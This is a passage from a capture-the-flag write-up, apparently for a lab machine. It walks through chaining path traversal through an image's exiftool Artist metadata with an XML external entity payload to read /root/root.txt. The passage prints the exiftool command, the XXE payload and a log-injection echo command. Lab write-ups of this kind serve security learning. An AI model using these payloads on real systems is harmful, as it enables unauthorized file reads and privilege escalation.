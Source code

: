 We see that it reads the files line by line. The `parselog` map tells us that it will split up our `uri` and that we require an integer to be a valid parse. Then it exports our `xml` to `/credits/`. So now we have an idea of how it functions, we need to break it. If you notice, there is no sanitization on the `Artist` property. This is where we will insert and `LFI`. Then we can chain that with [`XML Entity Expansion`](https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_java.html#vulnerable-example-1) or `XXE`. So, here are the steps we need. First we need to create a new `.jpg` and upload it to the server. Next we need to create a copy of the current `creds.xml` file to insert our `LFI` and `XXE` into.]

Let's create a new `.jpg`. Then modify the metadata of that file with `exiftool`.

Command:
`exiftool -Artist="../home/woodenk/" pwn.jpg`

Now download it onto the target machine. Next up, creating the `xml` file.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/root.txt"> ]>
<credits>
	<author>damian</author>
	<image>
		<uri>/../../../../../../../home/woodenk/pwn.jpg</uri>
		<qq>&ent;</qq>
		<views>0</views>
	</image>
	<totalviews>0</totalviews>
</credits>
```

Now we can can `echo` a line into the log:

Command:
`echo "../../../../../../home/woodenk/pwn.jpg" > /opt/panda_search/redpanda.log`

I found that this actually only works with a reverse shell vs in `ssh`. Looks like it's due to the group assocaiations. We can then go back and cat our `xml` file.

![](/images/redpanda/panda11.png)

There we have it, our `root.txt` flag!
